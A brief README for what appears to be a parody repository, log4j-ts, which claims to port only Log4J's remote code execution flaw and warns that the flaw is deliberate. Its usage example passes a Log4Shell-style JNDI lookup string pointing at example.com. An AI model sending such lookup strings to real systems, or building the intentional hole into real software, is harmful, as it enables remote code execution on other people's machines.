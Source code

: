 # log4j-ts
This repository is a port of the Log4J library whose only feature is the RCE vulnerability

## Disclaimer
### Do not use this library for any serious purposes. It deliberately contains RCE (Remote Code Execution).

## Installation
```console
> yarn install
```

## Usage
```console
> npm start -- "${jndi:ldap(s)://example.com}"
```